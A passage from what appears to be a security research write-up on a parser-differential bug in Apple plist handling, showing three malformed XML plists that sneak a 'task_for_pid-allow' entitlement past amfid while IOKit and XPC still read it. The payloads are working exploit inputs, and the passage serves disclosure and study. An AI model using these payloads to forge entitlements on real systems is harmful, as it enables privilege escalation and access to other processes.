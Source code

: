 After discovering this, I didn't bother reversing XPC, I simply fed it some test data and observed the results. In this case, it turned out to see _both_ blocks, which worked _perfectly_ for my case. I could sneak entitlements past `amfid` using CF, but have them show up when parsed by both IOKit and XPC!

There's a couple more variants I tested, with varying results:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict hurr=">
</dict>
</plist>
">
    <key>task_for_pid-allow</key>
    <true/>
</dict>
</plist>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <???><!-- ?>
    <key>task_for_pid-allow</key>
    <true/>
    <!-- -->
</dict>
</plist>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE [%>
<plist version="1.0">
<dict>
    <key>task_for_pid-allow</key>
    <true/>
</dict>
</plist>
;]>
<plist version="1.0">
<dict>
</dict>
</plist>
```

These are all less elegant and less rewarding than the first variant, and I'll leave it as an exercise to the reader to figure out what parser difference causes those, or how the different parsers react to them.
